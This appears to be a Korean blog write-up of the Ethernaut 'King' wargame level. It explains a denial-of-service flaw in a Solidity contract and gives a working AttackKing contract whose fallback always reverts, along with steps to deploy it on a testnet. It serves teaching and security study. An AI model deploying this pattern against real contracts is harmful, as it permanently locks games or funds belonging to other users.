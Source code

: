 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 9) King
date: '2022-01-10 19:18:00'
author: 한성원
tags: ethernaut King vulnerability
categories: 취약점분석
---
```



# 👋 Force
__Difficulty 6/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- 게임을 break 하기
- 즉 내가 왕이되고 누구도 왕이 될 수 없게 만들기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract King {
    // address of king
    address payable king;
    // 
    uint public prize;
    // contract의 owner
    address payable public owner;

    // contructor
    constructor() public payable {
        // set deployer as owner
        owner = msg.sender;  
        // set deployer as king
        king = msg.sender;
        // set prize as msg.value <- deployer's value
        prize = msg.value;
    }

    // receive function to get Ether
    receive() external payable {
        // msg.value가 현재 prize 보다 크거나, msg.sender가 owner이면 진행
        require(msg.value >= prize || msg.sender == owner);
        // king에게 msg.value를 보낸다.
        king.transfer(msg.value);
        // king을 msg.sender로 변경
        king = msg.sender;
        // prize를 msg.value로 변경
        prize = msg.value;
    }

    // 누가 king인지 볼 수 있는 함수
    function _king() public view returns (address payable) {
        return king;
    }
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 Force는 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.

## 풀이
이 문제에서 우리의 목표는 이 게임을 break하는 것이다. 즉 누구도 게임을 할 수 없게 만들면 된다.

위 코드는 내가 전에 공부했던 King of Ether이라는 contract와 비슷하다. 그렇기 때문에 조금 쉽게 해결 할 수 있었다. unexpected revert가 무엇인지 궁금하다면 아래 post를 클릭해 먼저 보고오자!
- [DOS with Unexpected Revert](https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/)

이 문제에서 중요하게 봐야할 점은 .transfer이다. 우리는 transfer을 사용해 Ether를 보낼 수 있다. 근데 만약 EOA가 아닌 CA에게 Ether를 보내는 것이라면 어떨까? 

CA는 receive함수를 설정하여 Ether를 받지 않고 revert 시킬 수 있다. 즉 만약 CA가 king이 되고 Ether를 받지 못하게 설정한다면 이제 누구도 게임을 진행 할 수 없게된다.

attackKing contract를 한번 보며 더 이해해보자!

```solidity
contract AttackKing {

    constructor() public payable {}
    
    // King을 attack하는 function
    function attackKing(address payable _king) public payable {
        // send a transaction to King contract
        _king.call{value: msg.value}("");
    }

    // revert when ether comes in or when no name function was called
    fallback() external {
        revert();
    }
}
```
위 코드를 Remix IDE에서 위 코드를 Rinkeby Network에 배포한다.

우리가 King contract에서 공격할 수 있는 부분은 receive() function 밖에 없다. receive의 require 부분을 보면 prize보다 크거나 msg.sender가 owner이어야 한다. 우리는 owner가 될 수 없으니 prize보다 더 큰 값을 보내면 된다. 

우선 console 창에서 공격에 필요한 정보를 얻어보자
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// fromWei를 사용해 현재 prize의 값을 가져온다.
web3.utils.fromWei(await contract.prize()) // 0.001 Ether
```
remix로 돌아와서 0.001 Ether 보다 큰 값을 attackKing contract에 보낸다. 그럼 contract의 address가 King이 되어있을 것이다. 그리고 다른 account를 생성해 transaction을 보내본다면 revert 되는 것을 확인 할 수 있다. 아래 그림은 transaction을 보낸 후 etherscan에서 확인한 사진이다.
![transaction_reverted_ethernaut_King](transaction_reverted_ethernaut_King.png)

이후 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

## Troubleshooting
나는 중간에 Gas Limit을 초과해 transcation이 계속해서 revert되는 것을 확인했다. 처음에는 무엇 때문인지 몰랐지만 etherscan에서 transaction을 확인한 후 알 수 있었다.
![gas_limit_failed-1](gas_limit_failed-1.png)
![gas_limit_failed-2](gas_limit_failed-2.png)

이후 transaction을 보낼때 gas limit을 높혀주니 transactino이 정상적으로 진행되었다.

## 마무리
전에 다뤘던 [DOS With Unexpected Revert 취약점](https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/)과 비슷했다. 위 게시글에서도 말했듯이 이 부분은 pull over push를 사용하여 문제를 해결 할 수 있다. ethernaut 시리즈가 끝나고 pull over push와 같은 방법론들도 다뤄보도록 하겠다!


- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- DOS With Unexpected Revert 취약점: https://holyhansss.github.io/vulnerability/dos_with_unexpected_revert/dos_unexpected_revert/

```toc

```
